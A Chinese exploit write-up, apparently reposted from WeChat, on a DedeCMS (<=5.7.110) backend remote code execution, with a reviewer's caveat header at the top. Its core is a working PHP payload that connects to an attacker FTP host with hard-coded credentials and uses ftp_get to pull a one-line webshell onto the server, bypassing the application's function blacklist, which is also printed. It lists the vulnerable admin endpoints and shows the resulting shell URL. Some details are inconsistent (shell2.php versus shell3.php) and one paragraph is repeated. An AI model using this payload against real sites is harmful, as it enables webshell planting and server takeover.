## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=5.7.110 asserted, code paths5.7.109; admin edit/upload permission; PHP FTP extension; outbound FTP and writable local output; short_open_tag if literal payload used

- **结论使用边界（1）**：'No malicious file during execution' contradicted by ftp_get writing local shell2.php。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：Output text says shell2.php but URL shell3.php。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（3）**：Headline latest/0day undated; admin prerequisite implicit in endpoints。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（4）**：Five endpoints listed but only template.rand result explained; no individual request/auth checks。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（5）**：Application function blacklist distinct from PHP disable_functions; clarify。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（6）**：Promotional tail and duplicate explanation paragraph。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Dedecms 最新版 --0day 分享分析 (二)

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/1tyOySWRfutmahEm3K26iA)

#### 前言

[接上一篇的 Tricks](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652899360&idx=1&sn=2354854185d0228613491b9be93518ab&chksm=bd6674ed8a11fdfb7dc6e12d08401f90ad4f1f1365b15dbc87dbab540da204095a647936de2e&scene=21#wechat_redirect)，既然利用远程文件下载方式成为了实现 RCE 的最好方法，毕竟在执行的时候没有恶意 shell 文件，恶意木马被存放于远端服务器，那么下文的 day 就是对远程恶意文件的利用。

#### 环境

下载最新版本：

> https://updatenew.dedecms.com/base-v57/package/DedeCMS-V5.7.110-UTF8.zip


影响版本：

`<=DedeCMS-V5.7.110`

漏洞 URL:

```
/uploads/dede/article_string_mix.php
/uploads/dede/sys_data.php
/uploads/dede/sys_task.php
/uploads/dede/media_add.php 
/uploads/dede/article_template_rand.php

```

#### 漏洞详情

远程服务器开启 ftp 服务

> 控制面板 >> 程序 >> 启用或关闭 windows 功能



完成更改



> 计算机管理



> 添加 FTP 站点



配置地址以及账号密码



上面存放一句话木马



文件内容为



payload 如下：

```
<?

$ftp_server = "192.168.0.102";
$ftp_username = "administrator";
$ftp_password = "147258369";

$file = "shell.php";
$local_file = "shell2.php";

// set up basic connection
$conn_id = ftp_connect($ftp_server);

// login with username and password
$login_result = ftp_login($conn_id, $ftp_username, $ftp_password);
// try to download $file and save to $local_file
if (ftp_get($conn_id, $local_file, $file, FTP_BINARY)) {
  echo "Successfully downloaded $file\n";
} else {
  echo "There was a problem while downloading $file\n";
}

// close the connection
ftp_close($conn_id);
?>

```

代码中的”ftp_server” 为远程服务器地址，”ftp_username” 为远程 ftp 登录用户名，”ftp_password” 为 ftp 登录密码，”$file” 为远程服务器的 shell 文件名，”$local_file” 为从远程服务器下载木马文件到本地的重命名文件。通过利用 ftp_get 函数远程下载恶意代码文件，代码中的”ftp_server” 为远程服务器地址，”ftp_username” 为远程 ftp 登录用户名，”ftp_password” 为 ftp 登录密码，”$file” 为远程服务器的 shell 文件名，”$local_file” 为从远程服务器下载木马文件到本地的重命名文件。



文件保存后，访问路径

/uploads/data/template.rand.php



提示已经成功下载一句话木马文件，查看当前目录已经生成名称为 shell2.php 的 shell 文件

http://dedecms.xyz:8066/uploads/data/shell3.php



成功命令执行

#### 漏洞分析

```
DedeCMS-V5.7.109-UTF8\uploads\dede\media_add.php

```

上传文件的时候仅仅只对权限以及上传类型做了校验，对文件内容未做校验导致漏洞产生。

继续向下看，文件上传文件处理代码`DedeCMS-V5.7.109-UTF8\uploads\dede\file_manage_control.php`



代码中定义了`disable_funs`, 但是禁用的函数涉及

```
phpinfo,eval,assert,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite,preg_replace';
$cfg_disable_funs = $cfg_disable_funs.',[$]GLOBALS,[$]_GET,[$]_POST,[$]_REQUEST,[$]_FILES,[$]_COOKIE,[$]_SERVER,include,require,create_function,array_map,call_user_func,call_user_func_array,array_filert,getallheaders

```

在上面的 payload 中，利用手法利用点儿在于



`ftp_get`函数是可以绕过`disable_funs`的，使用该函数实现 bypass 进行远程恶意代码调用，导致 RCE。

#### 小结

其它的方法也可以尝试，ftp 远程调用，telnet 远程调用等，包括很多方法可以实现，但是使用条件存在限制。其实在`Dede`由于后台参数可以直接进行配置，代码中`disable_funs`的定义没有意义，该模块只要存在，只要绕过正则，RCE 的方式有很多。

**原创稿件征集**

征集原创技术文章中，欢迎投递

投稿邮箱：edu@antvsion.com

文章类型：黑客极客技术、信息安全热点安全研究分析等安全相关

通过审核并发布能收获 200-800 元不等的稿酬。

[更多详情，点我查看！](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652885477&idx=1&sn=39e97a60d7b68d19569284654e74ffa1&chksm=bd59ad288a2e243e4d89b7c456fbd44a93d241c881075b342af22431d93dca56e52076ed75ce&scene=21#wechat_redirect)


靶场实操，戳 “阅读原文”

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
